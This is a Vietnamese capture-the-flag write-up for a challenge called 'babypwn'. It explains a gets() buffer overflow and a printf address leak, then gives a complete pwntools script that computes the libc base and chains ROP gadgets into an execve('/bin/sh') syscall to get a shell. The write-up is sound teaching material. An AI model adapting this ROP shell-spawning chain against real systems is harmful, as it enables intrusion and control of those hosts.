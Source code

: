 **1. Tìm lỗi**

Dùng lệnh ```file``` kiểm tra

```
babypwn: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=9bb8abcaaf8cb2ef7a1443b9175a22f4e4fad9ca, for GNU/Linux 4.4.0, not stripped
```

---> Mở bằng IDA64 ta có:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(argc, argv, envp);
  vuln();
  return 0;
}
```

Hàm ```vuln```

```
__int64 vuln()
{
  char v1[64]; // [rsp+0h] [rbp-40h] BYREF

  printf("There you go, libc leak: %p", &printf);
  gets(v1);
  return 0LL;
}
```

Chương trình in ra địa chỉ của hàm ```printf``` -> từ đó có thể leak được địa chỉ libc

Chương trình sử dụng hàm ```gets``` nên có lỗi bof

**2. Ý tưởng**

- Lấy địa chỉ leak ra để tính được địa chỉ libc
- Tận dụng lỗi bof để ROP đến hàm thực thi

**3. Khai thác**

Đầu tiên là lưu vào địa chỉ leak ra được:

```
r.recvuntil(b'leak: ')
libc_leak = r.recv(14).decode()
log.info("leak : " + libc_leak)
libc_leak = int(libc_leak, 16)
```

![leak.png](photo/leak.png)

Như vậy đã lấy được địa chỉ hàm ```printf```. Dựa vào đó để tính toán địa chỉ libc

![libc.png](photo/libc.png)

Và cũng đã tính được địa chỉ libc. 

```
   0x00005572f4cd91c6 <+38>:    lea    rax,[rbp-0x40]
   0x00005572f4cd91ca <+42>:    mov    rdi,rax
   0x00005572f4cd91cd <+45>:    mov    eax,0x0
   0x00005572f4cd91d2 <+50>:    call   0x5572f4cd9040 <gets@plt>
```  

Ta thấy biến cần nhập cách rbp 0x40 byte. Vậy biến nhập vào cách ret 0x40 + 0x8 byte. Vậy mình cần nhập 0x40 + 0x8 byte rác để tràn tới ret.

Tiếp theo sử dụng ```ROPgadget``` để tìm kiếm các thanh ghi phù hợp trong file ```libc.so.6``` để tạo hàm thực thi. ta kiếm được các hàm như sau:

```
pop_rax = libc.address + 0x0000000000045eb0
pop_rdi = libc.address+ 0x000000000002a3e5
pop_rsi = libc.address + 0x000000000002be51
pop_rdx = libc.address + 0x000000000011f497
syscall = libc.address + 0x0000000000029db4
```

Như vậy đã kiếm đủ điều kiện cần thiết. Tiếp theo chỉ cần chèn chúng với giá trị cần thiết vào sau ret. Lưu ý khi pop rdx thì nó có pop cả r10 nên cần gán 2 giá trị vào.

```
payload = b'a'*(0x40 + 0x8)
payload += p64(pop_rdi) + p64(next(libc.search(b"/bin/sh")))
payload += p64(pop_rsi) + p64(0)
payload += p64(pop_rax) + p64(0x3b)
payload += p64(pop_rdx) + p64(0) + p64(0)
payload += p64(syscall)
```

Đặt breakpoint ở ret xem đã return về những câu lệnh ret mình cần chưa.

![check.png](photo/check.png)

Như vậy đã trả về các câu lệnh mình muốn.

Ta có script như sau:

```
from pwn import *

exe = ELF('babypwn', checksec = False)
r = process(exe.path)
libc = ELF('libc.so.6', checksec = False)
#r = remote("babypwn.pwn.midnightflag.fr", 16000)

r.recvuntil(b'leak: ')
libc_leak = r.recv(14).decode()
log.info("leak : " + libc_leak)
libc_leak = int(libc_leak, 16)
libc.address = libc_leak - 0x60770
log.info("Libc: " + hex(libc.address))

pop_rax = libc.address + 0x0000000000045eb0
pop_rdi = libc.address+ 0x000000000002a3e5
pop_rsi = libc.address + 0x000000000002be51
pop_rdx = libc.address + 0x000000000011f497
syscall = libc.address + 0x0000000000029db4

payload = b'a'*(0x40 + 0x8)
payload += p64(pop_rdi) + p64(next(libc.search(b"/bin/sh")))
payload += p64(pop_rsi) + p64(0)
payload += p64(pop_rax) + p64(0x3b)
payload += p64(pop_rdx) + p64(0) + p64(0)
payload += p64(syscall)

#input()
r.sendline(payload)
r.interactive()
```

**4. Lấy flag**

Vì giải đã kết thúc nên kết nối qua local.

![flag.png](photo/flag.png)
